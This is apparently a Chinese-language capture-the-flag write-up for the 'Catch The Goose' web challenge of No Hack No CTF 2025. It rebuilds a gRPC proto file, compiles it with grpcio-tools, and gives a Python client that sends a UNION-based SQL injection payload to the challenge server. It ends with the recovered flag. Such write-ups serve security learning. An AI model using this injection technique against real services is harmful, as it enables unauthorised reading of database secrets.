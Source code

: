 ##### tags: `NoHackNoCTF_2025`
# No Hack No CTF 2025 Web : Catch The Goose

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

<span class=""></span>

## <span class="red">題目</span>

- ![image](https://hackmd.io/_uploads/ryPMB_8See.png)

## <span class="red">解題過程</span>

1. **根據題目給的 `server.py` 可以逆推出 `user.proto`**

    ```user.proto=
    syntax = "proto3";

    service UserService {
      rpc GetUser (UserRequest) returns (UserReply);
    }

    message UserRequest {
      string username = 1;
    }

    message UserReply {
      string data = 1;
    }
    ```

&emsp;

2. **然後用 python 開一個虛擬環境，準備裝 `grpcio-tools` ，用來跑 grpc 的編譯。**

- **開起並進入虛擬環境： `python -m venv venv;.\venv\Scripts\activate`** 
- **裝 `grpcio-tools`： `pip install grpcio grpcio-tools`**
- ![image](https://hackmd.io/_uploads/HJydRqUBgl.png)

- **裝完之後就能夠利用 `protoc` 編譯 `user.proto`**
- ![image](https://hackmd.io/_uploads/rJkRRqIree.png)

&emsp;

3. **完成後會產生 `user_pb2_grpc.py` 和 `user_pb2.py` ，接著就可以寫 `client.py` 來塞入 `SQL Injection` 的 payload 做互動，配合最一開始題目給的提示，就能夠拿到 flag 了 (deactivate 可以離開虛擬環境)**

- **題目給的提示：**
    - ![image](https://hackmd.io/_uploads/SJ71gi8rxx.png)

    ```python=
    import grpc
    import user_pb2, user_pb2_grpc

    def get_user(username):
        with grpc.insecure_channel('chal.78727867.xyz:14514') as channel:
            stub = user_pb2_grpc.UserServiceStub(channel)
            response = stub.GetUser(user_pb2.UserRequest(username=username))
            return response.data

    if __name__ == "__main__":
        print("[*] Try admin:")
        print(get_user("admin"))

        print("\n[*] Try SQLi:")
        injection = "' UNION SELECT value FROM users WHERE key='secret_flag'--"
        print(get_user(injection))
    ```

- ![image](https://hackmd.io/_uploads/By2VyjUHlx.png)

- **flag🚩 :`NHNC{lETs_cOoK_THe_GoOSE_:speaking_head::speaking_head::speaking_head:}`**